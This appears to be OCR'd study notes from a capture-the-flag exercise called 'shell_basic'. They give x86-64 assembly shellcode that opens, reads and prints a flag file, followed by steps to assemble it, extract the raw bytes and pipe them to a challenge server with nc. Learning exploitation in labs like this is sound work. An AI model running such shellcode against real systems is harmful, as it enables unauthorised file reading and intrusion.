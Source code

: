 ```c
void run_sh();

int main(void)
{
	run_sh();
}
```

```nasm
; File name: S4_05_shellcode.asm

section .text
global _start
_start:
push 0x0                    ; NULL
mov rax, 0x676e6f6f6f6f6f6f ; oooooong
push rax
mov rax, 0x6c5f73695f656d61 ; ame_is_l
push rax
mov rax, 0x6e5f67616c662f63 ; c/flag_n
push rax
mov rax, 0x697361625f6c6c65 ; ell_basi
push rax
mov rax, 0x68732f656d6f682f ; /home/sh
push rax
mov rdi, rsp    ; rdi = '/home/shell_basic/flag_name_is_loooooong'
xor rsi, rsi    ; rsi = 0 ; RD_ONLY
xor rdx, rdx    ; rdx = 0
mov rax, 2      ; rax = 2 ; syscall_open
syscall         ; open('/home/shell_basic/flag_name_is_loooooong', RD_ONLY, NULL)

mov rdi, rax      ; rdi = fd
mov rsi, rsp
sub rsi, 0x30     ; rsi = rsp-0x30  buf
mov rdx, 0x30     ; rdx = 0x30      len
mov rax, 0x0      ; rax = 0         syscall_read
syscall           ; read(fd, buf, 0x30)

mov rdi, 0x1      ; rdi = 1 ; fd = stdout
mov rax, 0x1      ; rax = 1 ; syscall_write
syscall           ; write(fd, buf, 0x30)

xor rdi, rdi      ; rdi = 0
mov rax, 0x3c     ; rax = sys_exit
syscall           ; exit(0)
```

1. nasm -f elf64 S4_06_shell_basic.asm
    - elf: 32-bit
    - elf-64: 64-bit
2. objdump -d S4_06_shell_basic.o
3. objcopy --dump-section .text=S4_06_shell_basic.bin S4_06_shell_basic.o
4. xxd S4_06_shell_basic.bin
5. cat S4_06_shell_basic.bin | nc <host> <port>
    - host가 client에 의해 실행된 명령(cat S4_06_shell_basic.bin)에 대한 응답을 전송
